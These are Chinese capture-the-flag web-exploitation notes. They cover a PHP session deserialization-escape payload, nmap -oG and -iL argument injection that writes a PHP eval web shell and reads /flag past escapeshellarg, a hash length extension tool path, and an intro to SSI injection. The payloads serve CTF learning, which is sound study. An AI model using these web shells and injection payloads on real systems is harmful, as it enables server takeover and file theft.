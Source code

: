 首先修改function的值进行尝试修改:

`$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}'`

再在后面加上一个键值对,目的是为了让序列化合法化丢弃后面部分

`$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"aa";s:1:"b";}'`

此时序列化结果如下:

`a:3:{s:4:"user";s:5:"guest";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"b";s:1:"a";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

再对user进行更改:

user的值肯定要改成全是flag或者php的格式,其长度有后面部分决定,目的是为了把`";s:8:"function";s:58:"a`全都包括进来,所以长度应该是24,

那么就可以凑出user的值,此处可以是`flagflagflagflagflagflag`

此时就可以构造payload:

`_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"b";s:1:"a";}&_SESSION[user]=flagflagflagflagflagflag`



## 关于nmap命令

- `-oG`          #写入文件

	可以用来写入一句话木马

	`nmap 127.0.0.1 | <?php @eval($_POST["mayi"]);?> -oG mayi.php` 

	`nmap 127.0.0.1 | ' <?php @eval($_POST["mayi"]);?> -oG mayi.php '`   #这是绕过escapeshellarg的命令

- `-iL`			#读取扫描文件

	`nmap -iL target.txt -o result.txt`

	//扫描target.txt里面的内容并输出保存为result.txt

	`nmap 127.0.0.1' -iL /flag -o uuuu`

	#这是绕过escapeshellarg的命令

	最后要访问`uuuu'`文件



## 哈希长度拓展攻击

工具:

E:>>CTF>>xuezhang-CTF>>CTF_tools>>web>>hash-ext-attack



## SSI 远程命令执行漏洞（SSI注入漏洞）

### SSI 服务器端包含
SSI（server-side includes）能帮我们实现什么功能：
SSI提供了一种对现有HTML文档增加动态内容的方法，即在html中加入动态内容。
